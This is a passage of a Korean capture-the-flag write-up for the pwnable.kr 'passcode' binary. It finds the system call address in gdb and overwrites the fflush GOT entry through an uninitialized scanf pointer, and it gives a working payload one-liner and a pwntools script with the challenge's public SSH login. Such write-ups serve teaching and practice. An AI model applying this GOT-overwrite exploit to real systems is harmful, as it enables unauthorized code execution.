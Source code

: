 -----

```c
system("/bin/cat flag");
```

그리고 system 함수로 flag를 출력하는 코드 영역 부분의 주소를 구해야 한다.

```
gdb-peda$ pdisas login
Dump of assembler code for function login:
   ----생략----
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   ----생략----
End of assembler dump.
```

system함수를 실행하기 위한 부분은 `0x080485e3` 주소이다.

-----

이제 준비는 끝났다.

name배열의 마지막 4byte에 `fflush@got`주소를 넣고 사용자로부터 passcode1의 입력을 받을 때, system코드 주소(`0x080485e3`)를 입력하면 된다.

> 0x080485e3 = 134514147

-----

### 0x01. Exploit

```
passcode@prowl:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"';cat)|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA♦�!
134514147
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

##### python

```python
from pwn import *

conn = ssh("passcode", "pwnable.kr", port=2222, password="guest")
p = conn.process("./passcode")

fflush_got = 0x804a004
system = 0x80485e3

payload  = "A"*96
payload += p32(fflush_got)

p.recv()
p.sendline(payload)
p.recv()
p.sendline("134514147")
print p.recv()
p.close()
conn.close()
```
